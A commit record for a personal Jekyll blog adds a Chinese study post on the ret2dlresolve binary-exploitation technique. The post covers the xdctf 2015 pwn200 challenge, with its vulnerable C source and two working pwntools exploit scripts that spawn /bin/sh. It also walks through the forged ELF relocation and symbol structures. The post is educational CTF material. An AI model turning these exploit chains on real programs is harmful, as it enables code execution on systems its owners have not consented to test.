

Before and after one commit to NTC627/ntc627.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page at 98% size, without its empty margins (128-1151 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown.

Commit message:
new post

````diff
--- /dev/null
+++ b/_posts/2026-06-11-ret2dlresolve.md
@@ -0,0 +1,285 @@
+---
+layout: post
+title: "[pwn]ret2dlresolve学习笔记（32位程序为例子）"
+date: 2026-06-05
+---
+# ret2dlresolve
+
+本次学习以32位为例子，linux的动态链接使用的是\_dl\_runtime\_resolve(link\_map\_obj, reloc\_offset)。先来看看相关原理。
+
+## 相关原理
+（1）.dynamic的结构类似一个键值对数组，重定位表项、动态符号表、动态字符串表在其中的结构类似：
+
+```bash
+DT_SYMTAB 6 d_ptr //指向动态符号表
+DT_STRTAB 5 d_ptr //指向动态字符串表
+DT_REL 17 d_ptr  //重定位表，指向.rel.dyn
+DT_RELA 7 d_ptr //重定位表，指向.rela.dyn
+```
+
+（2）ELF文件中，每个需要重定位的ELF节都有对应的重定位表，比如.text节如果需要重定位，那么就会对应.rel.text。在导入一个函数时，\_dl\_runtime\_resolve会根据reloc_offset（32位叫reloc\_arg，64位叫reloc\_index）去.rel.plt中找偏移对应的值，然后去.dynsym找对应的符号名称，再在.dynstr中找对应的函数名字符串。
+
+![ref1](/assets/images/2026-06-11-ret2dlresolve/ref1.png)
+
+（3）\_dl\_runtime\_resolve是用汇编编写的，32位和64位也有不同之处。这个函数的代码功能简单来说就是保存寄存器，然后调用\_dl\_fixup执行具体绑定的过程，64位的话，除了更多寄存器和用寄存器传参而非栈传参，就是最后返回的区别了，32位函数的最后是ret，64位则是jmp
+
+因此如果能修改\_dl\_runtime\_resolve(link\_map\_obj, reloc\_offset)的参数，就能使这个函数在解析的时候解析到我们想去的函数。具体的，我们需要修改.dynamic节，因为这个节包含重定位表项、动态符号表、动态字符串表。
+不过.dynamic没这么好改，开了RELRO的情况下，重定位表项、动态符号表、动态字符串表都是只读的，比较可行的思路是伪造重定位偏移reloc_offset，但是“我们不仅需要伪造重定位表项，符号信息和字符串信息，而且我们还需要确保动态链接器在解析的过程中不会出错。”
+
+来看看不同情况的具体题目吧
+
+## NoRelro 32
+
+xdctf 2015 pwn200
+
+源码
+```c
+#include <unistd.h>
+#include <stdio.h>
+#include <string.h>
+
+void vuln()
+{
+    char buf[100];
+    setbuf(stdin, buf);
+    read(0, buf, 256);
+}
+int main()
+{
+    char buf[100] = "Welcome to XDCTF2015~!\n";
+
+    setbuf(stdout, buf);
+    write(1, buf, strlen(buf));
+    vuln();
+    return 0;
+}
+```
+
+现在用gcc来编译32位版本
+
+```bash
+gcc -fno-stack-protector -m32 -z norelro -no-pie pwn.c -o norelro32
+```
+
+其实从题目也可以看出来不难，直接正常打就行了，这里用ret2dlresolve的技巧来打。先讲讲这个编译，可以看出来关闭了栈保护，关闭了relro（即关闭了GOT/PLT等的只读），关闭了pie，payload如下
+
+```python
+from pwn import *
+context.log_level="debug"
+context.terminal = ["tmux","new-window"]
+context.arch="i386"
+p = process("./norelro32")
+rop = ROP("./norelro32")
+elf = ELF("./norelro32")
+
+gdb.attach(p, 'b main')
+
+p.recvuntil('Welcome to XDCTF2015~!\n')
+
+offset = 112
+rop.raw(offset*'a')
+rop.read(0,0x0804b184+4,4) # modify .dynstr pointer in .dynamic section to a specific location
+dynstr = elf.get_section_by_name('.dynstr').data()
+dynstr = dynstr.replace(b"read",b"system")
+rop.read(0,0x0804b260,len((dynstr))) # construct a fake dynstr section in bss
+rop.read(0,0x0804b260+0x100,len(b"/bin/sh\x00")) # read /bin/sh\x00
+rop.raw(0x08049056) # the second instruction of read@plt
+rop.raw(0xdeadbeef)
+rop.raw(0x0804b260+0x100)
+assert(len(rop.chain())<=256)
+rop.raw("a"*(256-len(rop.chain())))
+print(rop.dump())
+p.send(rop.chain())
+p.send(p32(0x0804b260)) # hijack .dynstr to bss
+p.send(dynstr)
+p.send(b"/bin/sh\x00")
+p.interactive()
+```
+
+下面来解析一下，首先因为关闭了RELRO，所以got、plt啥的就可以写了，当然了.dynamic节也会可写了，所以就通过写.dynamic节，把read替换成system，这样调用\_dl\_runtime\_resolve的时候，就会把read函数解析成system，然后就能getshell了，payload的执行过程如下
+
+```bash
+1.第一个read是程序原本的read，触发栈溢出，返回到我们rop的第一个read函数，往0x0804b184+4(即.dynamic节的DT_STRTAB的d_val)读取4字节，读入的内容是0x0804b260，这是一个bss的地址，也就是把.dynstr的位置劫持到我们可写的bss段
+2.利用pwntools获取到原来.dynstr的完整内容，然后把里面的read替换成system，再利用rop链里的第二个read，把修改后的.dynstr读入到bss段
+3.第三个read，往bss上读入/bin/sh
+4.此时栈上的布局是0x08049056（下一个返回的地址），0xdeadbeef（下下个返回地址），函数参数。0x08049056就是read@plt的第二条指令，函数参数已被构造为system的参数，而此时.dynstr已被劫持，只要再次触发read的_dl_runtime_resolve就能解析到system执行
+```
+
+如图，这是.dynamic在IDA中的表现形式
+
+![ref2](/assets/images/2026-06-11-ret2dlresolve/ref2.png)
+
+为什么要劫持到read@plt的第二条指令呢，因为read先前已经执行并解析过了，如果劫持到第一条jmp，那么会直接跳到真实地址，而不是触发解析，下图是read@plt，可以看到第一条jmp，第二条push，第三条jmp。
+
+![ref3](/assets/images/2026-06-11-ret2dlresolve/ref3.png)
+
+顺便说说pwntools的这个rop对象，这个就相当于把平时p64自动打包好了，不用自己手写完整的链条了。
+
+## PartialRelro 32
+
+开了部分relro后，.dynamic就不可写了，需要自己伪造重定位表项。这里先简单说说大概怎么个伪造方法，其实和堆里面伪造一个fake chunk的原理差不多，在内存中找一个空的位置，根据重定位表的结构，伪造相关的数据，再让\_dl\_runtime\_resolve的reloc_offset参数指向我们伪造的那片内存的重定位项就可以了。pwntools里有自动构造dlresolve的payload的工具了，这里就来讲讲这个工具的使用的方式，和其构造的payload具体是怎么样的吧
+
+```python
+from pwn import *
+context.log_level="debug"
+context.terminal = ["tmux","new-window"]
+context.arch="i386"
+
+p = process("./partialrelro32")
+rop = ROP("./partialrelro32")
+elf = ELF("./partialrelro32")
+dlresolve = Ret2dlresolvePayload(elf,symbol="system",args=["/bin/sh"])
+rop.read(0, dlresolve.data_addr)
+rop.ret2dlresolve(dlresolve)
+raw_rop = rop.chain()
+
+p.recvuntil(b'Welcome to XDCTF2015~!\n')
+payload = flat({112:raw_rop, 256:dlresolve.payload})
+p.sendline(payload)
+p.interactive()
+```
+
+Ret2dlresolvePayload接收三个参数，一个是程序的elf对象，第二个参数是希望动态解析的目标函数字符串，这里是symbol="system"，第三个参数是第二个目标函数的参数，。这个函数构造好dlresolve对象后，调用dlresolve.data_addr计算可写的地址，就是计算可以把伪造的重定向表放在哪里，再调用rop.ret2dlresolve(dlresolve)，使程序在rop链的最后返回到\_dl\_runtime\_resolve执行解析。dlresolve.payload则是包含了完整的伪造重定向表。写成p32的形式，两个payload（忽略掉填充）分别是这样，raw_rop：
+
+```python
+rop_chain = (
+    p32(0x08049050) +      # read@plt
+    p32(0x0804901b) +      #  add esp, pop ebx, ret
+
+    p32(0) +
+    p32(0x0804ce00) +      # 程序中一个可读写的地址，可以去gdb里用vmmap来确认
+    p32(0x65616161) +      # read的长度参数，这里直接被padding顶替了
+
+    p32(0x08049020) +      # plt0
+    p32(0x4a9c) +          # reloc_arg
+
+    p32(0x68616161) +      #这个也是padding，这个位置无作用，因为system执行完也不会返回
+    p32(0x0804ce24)        # "/bin/sh"地址
+)
+```
+
+开始分析前先讲讲plt0这个东西，它的汇编代码是这样的
+
+```assembly
+.plt:08049020 sub_8049020     proc near               ; CODE XREF: .plt:0804903B↓j
+.plt:08049020                                         ; .plt:0804904B↓j ...
+.plt:08049020 ; __unwind {
+.plt:08049020                 push    ds:dword_804B23C ; reloc_arg
+.plt:08049026                 jmp     ds:dword_804B240 ; _dl_runtime_resolve
+.plt:08049026 sub_8049020     endp
+.plt:08049026
+```
+
+和NoRelro中讲到的jmp->push->jmp解析还不太一样，当跳转到这里的push执行的时候，\_dl\_runtime\_resolve并没有明确要解析什么函数，而是直接通过栈或者寄存器来传递reloc_arg参数，也就是说它要怎么解析全看栈或者寄存器上的数据，所以一般pwn都会利用这个来解析，这样无论程序的GOT里有没有对应函数，只要我们伪造了reloc_arg，就可以直接解析。
+
+这样第一段payload的总体流程就很好懂了，先利用溢出漏洞，跳转到rop里的read，通过这个read我们可以往指定的地方写入数据，写的内容则是伪造的重定位表，写完之后进行栈的修正（esp与ebp），然后就跳转到plt0，这时候由于在栈上伪造好了reloc\_arg，所以就直接去解析内存中被伪造的重定位表执行system('/bin/sh')。
+
+然后是dlresolve.payload部分，在这一部分我们会看到重定位表是怎么伪造的：
+
+```python
+dlresolve_payload = (
+    b"system\x00"
+    + b"acaaa"
+
+    + p32(0x4b54)
+    + p32(0)
+    + p32(0)
+    + p32(0)
+
+    + p32(0x0804ce00)
+    + p32(0x04c007)
+
+    + b"/bin/sh\x00"
+)
+```
+
+可以看看本文的第一副图片，现在要伪造的是.dynsym中的一个Elf32_Sym，其结构如下：
+
+```c
+typedef struct {
+    Elf32_Word st_name;      // 符号名在字符串表中的偏移, 4 bytes
+    Elf32_Addr st_value;     // 符号地址 , 4 bytes
+    Elf32_Word st_size;      // 大小, 4 bytes
+
+    unsigned char st_info; // 1 bytes
+    unsigned char st_other; // 1 bytes
+    Elf32_Half st_shndx;  // 2 bytes
+} Elf32_Sym;
+```
+
+其中st_name不是符号的字符串，也不是地址，而是符号在.dynstr中的偏移，而我们的dlresolve.payload，是这样去设置这些值的：
+
+```c
+Elf32_Sym fake_sym = {
+    .st_name  = 0x4b54,
+    .st_value = 0,
+    .st_size  = 0,
+
+    .st_info  = 0,
+    .st_other = 0,
+    .st_shndx = 0
+};
+```
+
+dlresolve.payload把这个伪造的Elf32_Sym放在了0x804ce0c，开启debug模式就可以看到；而dlresolve.payload开头的“system”字符串则被read写入到了0x0804ce00，终端使用readelf可以看到.dynstr的地址正是0x80482ac，而加上0x4b54，就正好是0x0804ce00。
+
+![ref4](/assets/images/2026-06-11-ret2dlresolve/ref4.png)
+
+不过还没完，dlresolve.payload的后段，p32(0x0804ce00) + p32(0x04c007)，还伪造了另一个东西，就是本文第一张图片里的Elf32_Rel，具体是这样伪造的：
+
+```c
+Elf32_Rel fake_rel = {
+    .r_offset = 0x804ce00,
+    .r_info   = 0x04c007
+};
+```
+
+其中，r_info就是用来找到对应的Elf32_Sym，在x86里，它分为高24位和低8位，其中，低8位固定为7，不然链接器就不处理，高24位则用于索引对应的Elf32_Sym，这里高24位是0x0004c，那么就是去.dynsym（Symtab）的地址0x0804820c的第0x4c0条地方（注意这个0x4c0不是偏移量，而是说在表的第几个项目，算偏移量还需要乘上size，这里size是16）: 0x0804820c + 0x4c0 * F = 0x0804820c + 0x4c00 = 0x0804ce0c ，也就是之前放伪造的Elf32_Sym的地方。
+
+最后该把两串payload连起来看的，看看\_dl\_runtime\_resolve是怎么找到伪造的Elf32_Rel的，其实很简单，我们触发plt0时，栈上的reloc_arg是0x4a9c，这个偏移值是和.rel.plt的0x08048380相加的（参考上一副图里的值吧），加起来就是0x0804ce1c，从read进去的偏移来算，刚好就是伪造的Elf32_Rel的地方，到这里PartialRelro 32的利用就算结束了。
+
+## Full RELRO 32
+
+这个模式下，REL相关的东西完全不可写了，程序开始执行前就会把函数地址解析完毕，\_dl\_runtime\_resolve也不使用了，不过应该还是存在绕过方法的，毕竟\_dl\_runtime\_resolve只是不用了，又不是删了，我查的资料中，似乎存在full relro下手动调用\_dl\_runtime\_resolve，手动构造重定位表的方法，某种特定的情况下也许确实能用，等做题多一点应该就知道了。
+
+
+## 64位
+
+64位的总体利用思路是和32差不多吧，这里只记录一下不同点，具体的题目做的时候再看吧（延迟绑定这一块）。
+
+首先是ELF\_Rela变了，Rel后面多的a，表示多了一个addend,下面是它的结构体
+
+```c
+typedef struct {
+	Elf64_Addr r_offset; /* Address */ 8 bytes
+	Elf64_Xword r_info; /* Relocation type and symbol index */ 8 bytes
+	Elf64_Sxword r_addend; /* Addend */ 8 bytes
+} Elf64_Rela;
+/* How to extract and insert information held in the r_info field. */
+#define ELF64_R_SYM(i) ((i) >> 32)
+#define ELF64_R_TYPE(i) ((i) & 0xffffffff)
+#define ELF64_R_INFO(sym,type) ((((Elf64_Xword) (sym)) << 32) + (type))
+```
+
+Elf64\_Rela结构体的大小为24字节，注意结构体中的变量都是64位了。
+
+然后是Elf64\_Sym的结构体如下，
+
+```c
+typedef struct {
+	Elf64_Word st_name; /* Symbol name (string tbl index) */ 4 bytes
+	unsigned char st_info; /* Symbol type and binding */ 1 bytes
+	unsigned char st_other; /* Symbol visibility */ 1 bytes
+	Elf64_Section st_shndx; /* Section index */ 2 bytes
+	Elf64_Addr st_value; /* Symbol value */ 8 bytes
+	Elf64_Xword st_size; /* Symbol size */ 8 bytes
+} Elf64_Sym;
+```
+
+Elf64_Word 32位，Elf64_Section 16位，Elf64_Addr 64位，Elf64_Xword 64位，合24字节。
+
+64位下，xxx@plt中的第二行的push就不是偏移了，变成了待解析符号在重定位表中的索引，比如write函数push的是0。
+
+还有一个要注意的点是，64位伪造重定位表，往往需要很多的溢出空间，如果程序没有这么多的栈给我们，我们还得自己实现栈迁移。
+
+就先这样吧，实战遇到题目再记录吧。
--- a/index.html
+++ b/index.html
@@ -1,6 +1,6 @@
 ---
 layout: default
-title: index
+title: Home
 ---
 <!DOCTYPE html>
 <html lang="zh-CN">
````
Also changed, not shown: _posts/2026-06-05-build-blog.md (+0 -15 lines), assets/images/2026-06-11-ret2dlresolve/ref1.png (added), assets/images/2026-06-11-ret2dlresolve/ref2.png (added), assets/images/2026-06-11-ret2dlresolve/ref3.png (added), assets/images/2026-06-11-ret2dlresolve/ref4.png (added).
